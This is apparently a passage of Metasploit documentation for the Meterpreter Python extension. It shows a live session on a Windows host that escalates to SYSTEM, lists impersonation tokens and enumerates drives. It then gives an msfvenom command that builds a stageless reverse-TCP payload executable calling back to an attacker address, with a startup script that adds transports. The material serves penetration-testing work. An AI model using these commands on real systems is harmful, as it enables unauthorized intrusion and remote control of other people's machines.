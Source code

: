 ### Bindings example

```
meterpreter > getuid
Server username: WIN-TV01I7GG7JK\oj
meterpreter > python_execute "import meterpreter.user; print meterpreter.user.getuid()"
[+] Content written to stdout:
WIN-TV01I7GG7JK\oj

meterpreter > python_execute "import meterpreter.elevate; meterpreter.elevate.getsystem()"
[+] Command executed without returning a result
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > python_execute "meterpreter.elevate.rev2self(); print meterpreter.user.getuid()"
[+] Content written to stdout:
WIN-TV01I7GG7JK\oj

meterpreter > use incognito
Loading extension incognito...success.
meterpreter > python_execute "import meterpreter.incognito; print meterpreter.incognito.list_user_tokens()"
[+] Content written to stdout:
{'Delegation': ['NT AUTHORITY\\LOCAL SERVICE', 'NT AUTHORITY\\NETWORK SERVICE', 'NT AUTHORITY\\SYSTEM', 'WIN-TV01I7GG7JK\\oj'], 'Impersonation': ['NT AUTHORITY\\ANONYMOUS LOGON']}

meterpreter > python_execute "import meterpreter.fs; print meterpreter.fs.show_mount()"
[+] Content written to stdout:
[{'Name': 'A:\\', 'SpaceUser': None, 'SpaceTotal': None, 'UNC': None, 'SpaceFree': None, 'Type': 2}, {'Name': 'C:\\', 'SpaceUser': 28950585344L, 'SpaceTotal': 64422408192L, 'UNC': None, 'SpaceFree': 28950585344L, 'Type': 3}, {'Name': 'D:\\', 'SpaceUser': None, 'SpaceTotal': None, 'UNC': None, 'SpaceFree': None, 'Type': 5}]
```
Each of the examples above just show the results printed to stdout, however the values are returned as Python dictionaries and can be operated on just like normal variables.

## Stageless Initialisation

Not only can the extension be baked into a stageless Meterpreter, like any other extension, it also has the ability to run an arbitrary script before the Meterpreter session is even established! Consider the following script:
```
$  cat /tmp/met.py
import meterpreter.transport
meterpreter.transport.add("tcp://127.0.0.1:8000")
```
This is a simple script that uses the Meterpreter bindings to add a new transport to the list of transports. This is executed immediately before Meterpreter attempts to create a connection back to Metasploit for the first time. The intent is to show that it's possible to add any number of transports on startup.

To create a stageless payload that uses this script, we can make use of the `EXTINIT` parameter in `msfvenom`:
```
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4445 EXTENSIONS=stdapi,priv,python EXTINIT=python,/tmp/met.py -f exe -o /tmp/met-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 6412437 bytes
Saved as: /tmp/met-stageless.exe
```
When this payload is executed, the transport is added and shown to be present in the transport list immediately:
```
```

  [transport]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Transport-Control
  [inveigh]: https://github.com/Kevin-Robertson/Inveigh